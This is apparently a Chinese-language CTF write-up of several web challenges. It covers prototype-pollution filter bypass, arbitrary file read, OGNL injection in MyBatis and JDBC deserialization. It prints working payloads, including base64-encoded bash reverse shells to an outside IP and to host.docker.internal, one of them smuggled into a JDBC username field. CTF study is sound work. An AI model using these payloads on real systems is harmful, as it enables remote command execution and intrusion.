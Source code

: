 # web
### ez_sandbox
#原型链污染 

过滤了 `__proto__`
`constructor.prototype`绕过

先注册一个用户
,在登录时污染admins对象
```json
{"username":"leijk","password":"leijk","constructor":{"prototype":{"leijk":"123"}}}
```

---
vm沙箱不会绕


### auth_bypass
#java
给了源码,审计发现存在任意文件读取,前缀的download使用双斜杠绕过
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231022211027.png)
读取配置文件web.xml
得到evil路径并读取evilServlet的class源码 `../WEB-INF/classes/com/example/demo/EvilServlet.class`
反编译打开,存在恶意命令执行
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231022211317.png)

Runtime.exec()单参数命令执行需要修改以下反弹shell的形式
https://blog.spoock.com/2018/11/25/getshell-bypass-exec/

需要urlencode以下字符串
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC81NC4yNTUuMTY2LjEyLzgyIDA+JjE=}|{base64,-d}|{bash,-i}
```

### mybaits
mybaits2.2存在ongl表达式注入漏洞
#ongl 
```java
${@java.lang.Runtime@getRuntime().exec("calc")}
//反弹shell需要{},使用base64编码
${@java.lang.Runtime@getRuntime().exec(new java.lang.String(@java.util.Base64@getDecoder().decode('YmFzaCAtYyB7ZWNobyxZbUZ6YUNBdGFTQStKaUF2WkdWMkwzUmpjQzgxTkM0eU5UVXVNVFkyTGpFeUx6Z3lJREErSmpFPX18e2Jhc2U2NCwtZH18e2Jhc2gsLWl9')))}
```

### testConnection
会进行一个数据库的test连接,存在jdbc反序列化漏洞

远程`java -jar fake*.jar`开启一个fake server 可以-p指定端口

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231106172857.png)

jdbc命令
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231106173305.png)

```url
/testConnection?
driver=com.mysql.cj.jdbc.Driver&url=jdbc:mysql://host.docker.internal:3308/test?
autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&username=deser_CC31_bash -c
{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9ob3N0LmRvY2tlci5pbnRlcm5hbC80NDQ0IDA+JjE=}|{base64,-
d}|{bash,-i}&password=123
```

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-10-21   13:22